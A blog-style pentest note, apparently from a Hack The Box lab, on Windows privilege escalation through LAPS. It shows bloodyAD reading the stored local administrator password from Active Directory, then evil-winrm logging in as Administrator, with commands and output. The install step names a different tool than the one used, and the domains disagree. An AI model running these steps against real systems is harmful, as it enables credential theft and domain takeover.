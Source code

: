 ```yaml
---
title: "Windows Privilege Escalation - LAPS"
date: 2025-04-03T22:41:10+05:30
draft: false
github_link: "https://github.com/gurusabarish/hugo-profile"
author: "Gurusabarish"
tags:
  - Placeholder text
  - Sample
  - example
image: /images/post.jpg
description: ""
toc: 
---
```


# Windows Privilege Escalation - LAPS

Local Administrator Password Solution (LAPS) is a feature in Windows used to backup Administrator password (What is LAPS?).

## Location LAPS file

```
dir "C:\Program Files\LAPS\CSE"
```

## Retrieve Administrator password

Using bloodyAD tool we can retrieve the password.

Installation: 

- git clone --depth 1 https://github.com/CravateRouge/autobloody
- pip install .

```
┌─[eu-dedivip-2]─[10.10.14.219]─[garrisec@htb-9ij5kp5ced]─[~/bloodyAD]
└──╼ [★]$ bloodyAD -u svc_deploy -d bloody.lab -p 'E3R$Q62^12p7PLlC%KWaxuaV' --host 10.129.207.26 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

distinguishedName: CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
ms-Mcs-AdmPwd: 6af%4)3.!G!ghhi.T7[m[r3&
ms-Mcs-AdmPwdExpirationTime: 133875940421676222
```

## Login with password

```
┌─[eu-dedivip-2]─[10.10.14.219]─[garrisec@htb-9ij5kp5ced]─[~/bloodyAD]
└──╼ [★]$ evil-winrm -u Administrator -p '6af%4)3.!G!ghhi.T7[m[r3&' -i 10.129.207.26 -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```
